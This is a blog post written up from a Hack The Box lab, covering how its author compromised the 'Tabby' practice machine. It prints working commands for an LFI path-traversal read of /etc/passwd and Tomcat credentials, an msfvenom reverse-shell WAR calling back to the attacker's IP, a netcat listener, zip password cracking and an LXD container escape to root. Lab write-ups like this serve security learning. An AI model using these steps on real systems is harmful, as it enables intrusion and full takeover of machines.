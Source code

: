 ```yaml
---
layout: post
title:  "HTB Tabby writeup"
date:   2020-12-08 18:00:00 +0300
categories: HTB_writeup
summary: This is my first attempt at making a writeup for a Hackthebox machine. It contains my notes on how I obtained both the user and root flag on the Tabby machine.  
---
```


This is my first attempt at making a writeup for a Hackthebox machine. It contains my notes on how I obtained both the user and root flag on the Tabby machine.  

![Tabby info card]({{site.baseurl}}/assets/img/HTB/tabby/info_card.png){: .center-image}
[Tabby](https://www.hackthebox.eu/home/machines/profile/259) is a Linux machine released on 2020-06-20 and its difficulty level was <b>easy</b>.

### Recon
We begin this by running a port scan with nmap (actually zenmap).
{%highlight bash%}
nmap -p- -T4 -A -v 10.10.10.194
# This is also the command used by using "Intense scan, all TCP ports" in zenmap
{%endhighlight%}
![Port Scan]({{site.baseurl}}/assets/img/HTB/tabby/port_scan.png){: .center-image}
We can see that this machine is exposing 3 services: ssh on port 22, an Apache web server on port 80 and a tomcat server on port 8080.


### Web server (port 80)
First, we should take a look at the http server running on port 80.
![Web page]({{site.baseurl}}/assets/img/HTB/tabby/front_page.png){: .center-image}
The first thing that we notice is the megahosting.htb domain. We might have to add that to /etc/hosts later.  
Looking around on this webpage, we cannot find any significant features and we see that lots of pages seem to be broken.
You can even find some pages indicating a previous data breach.

By taking a look at the code, we see an URL that has a 'file' URL parameter.
![Web page]({{site.baseurl}}/assets/img/HTB/tabby/lfi_code.png){: .center-image}

This hints at a possible Local-File Inclusion (LFI) vulnerability.  
We test this with some files that belong to the web app (ex: index.html) and then try accessing /etc/passwd (we already know this is running on Linux).
{%highlight bash%}
curl http://10.10.10.194/news.php\?file\=statement\?news.php\?file\=../../../../../../../../etc/passwd
{%endhighlight%}
![/etc/passwd contents]({{site.baseurl}}/assets/img/HTB/tabby/etc_passwd.png){: .center-image}

After looking around these pages without finding anything else that appeared to be useful I decided to start looking at the tomcat server.

### Tomcat (port 8080)
We can find the default Tomcat page on port 8080. We could access the manager_webapp page and the host-manager_webapp if we would have a valid account.  
First, we try some commonly used credentials like tomcat/tomcat, admin/s3cret, etc. None of these work for this instance of tomcat.  

A good approach here would be trying to obtain the file containing tomcat users (tomcat-users.xml) by exploiting the LFI vulnerability that we found.  
On the first page, we are informed that CATALINA_HOME is in <b>/usr/share/tomcat9</b> and CATALINA_BASE is in <b>/var/lib/tomcat9</b> so these paths might be good places to start looking.  
Also, when we enter an invalid set of credentials we are informed that tomcat-users.xml would be found at /conf/tomcat-users.xml in CATALINA_BASE.  
Trying to get the file at /usr/share/tomcat9/conf/tomcat-users.xml does not return anything.  
After some trial and error, I found a stackoverflow.com post that indicated more default locations for tomcat-users.xml.  
The one that worked was /usr/share/tomcat9/etc/tomcat-users.xml. We can now see the password for the tomcat account.

![Tomcat password]({{site.baseurl}}/assets/img/HTB/tabby/password.png){: .center-image}

### Getting a shell

When we try to use the newly found credentials in the manager web UI, the login fails. This is probably because tomcat does not have the manager-gui role. 
To get around this, we'll upload our payload using the deploy endpoint & cURL.  
First, we'll create a payload (a reverse shell) using msfvenom. Then, we'll upload it to the server using the tomcat account.
And after that we'll open a listener using nc and go to the URL coresponding to our payload in a browser in order to run it.  

{%highlight bash%}
msfvenom -p java/shell_reverse_tcp lhost=10.10.14.62 lport=1337 -f war -o n00b.war
export pass=\$3cureP4s5w0rd123!
curl -v -u tomcat:$pass --upload-file n00b.war "http://10.10.10.194:8080/manager/text/deploy?path=/n00b&update=true"
{%endhighlight%}
Note1: The password contained a <i>$</i> character. The easiest way to include that was to put it in a variable and use it like that.

![Deploying the payload]({{site.baseurl}}/assets/img/HTB/tabby/deploy_payload.png){: .center-image}
Then we start the nc listener and we got our first shell running as tomcat.

{%highlight bash%}
nc -lvp 1234
{%endhighlight%}

![Reverse shell]({{site.baseurl}}/assets/img/HTB/tabby/first_reverse_shell.png){: .center-image}

### Obtaining user-level access (privilege escalation 01)

We notice that python3 is installed on this machine.  
To make things easier, the first thing that we do is upgrading our shell to an interactive TTY using python.  
![Upgrading the shell]({{site.baseurl}}/assets/img/HTB/tabby/shell_upgrade.png){: .center-image}

We start looking for methods that we could use to elevate our privileges and gain access as the <b>ash</b> user instead of <b>tomcat</b>.  
One of the locations that I looked at was the root directory used by the apache web server. Among files that belong to the web app that is running on port 80 there is an archive named 16162020_backup.zip
![backup archive]({{site.baseurl}}/assets/img/HTB/tabby/backup_location.png){: .center-image}
Backups might contain sensitive or useful information so we use nc to transfer this file to our machine.

![Transfering backup.zip]({{site.baseurl}}/assets/img/HTB/tabby/nc_transfer_1.png){: .center-image}
The zip file is password protected.  
However, we can try to brute-force the password using fcrackzip and a wordlist (I used rockyou.txt in this case).  
Using this method, the password for the archive is found quite fast.  
![Password found]({{site.baseurl}}/assets/img/HTB/tabby/pw_found.png){: .center-image}
### The user flag
Analyzing the contents of the backup archive did not yield any useful information.  
However, there is another common mistake that could be involved here: <b>password reuse</b>.  
We try to use that password while logging in as <b>ash</b> and it works.  
We can now also retrieve the user flag from the user's home.

![User flag]({{site.baseurl}}/assets/img/HTB/tabby/user_flag.png){: .center-image}
### Obtaining root-level access (privilege escalation 02)
Now that we have access to the ash user's account we should try to gain root-level access.  
Among the first things that we check is the list of groups that a user belongs to. The group that grabs our attention for this user is <b>lxc</b>.
![Groups]({{site.baseurl}}/assets/img/HTB/tabby/groups.png){: .center-image}

Lxc is a technology used to run containers on a linux system. The level of access needed for that might be useful for escalating privileges.  
We start looking around on the Internet for more information on LXC and possible methods of exploitinig it in order to gain more access.  
We find a [blogpost](https://www.hackingarticles.in/lxd-privilege-escalation/) detailing how to use lxc or lxd in order to get root-level access.

First, we clone the alpine-builder [repository](https://github.com/saghul/lxd-alpine-builder) from GitHub and run <b>build-alpine</b>.  
Then, we use netcat to transfer the generated binary to our target machine.  
On the target machine, we import the image and create a new container based on that image.  

{%highlight bash %}
# Importing image
lxc image import ./alpine-v3.12-x86_64-20201121_1111 --alias test01

# Creating new container
lxc init test01 testimg -c security.privileged=true

# Add the root of the host filesystem to the container and mount it at /mnt/root
lxc config device add testimg mydevice disk source=/ path=/mnt/root recursive=true

# Start the new container
lxc start testimg

# Run sh inside the container
lxc exec testimg /bin/sh
{%endhighlight%}

![LXC import]({{site.baseurl}}/assets/img/HTB/tabby/lxc_import.png){: .center-image}


### The root flag
The exploit described above works well and we can now access any file from the host's filesystem.  
We use that in order to read the root flag.
![Root flag]({{site.baseurl}}/assets/img/HTB/tabby/root_flag.png){: .center-image}

And then we clean up by deleting the container, image and other binaries that we might've left behind while doing this (it was done when the machine was still public so other people were connecting to it too).

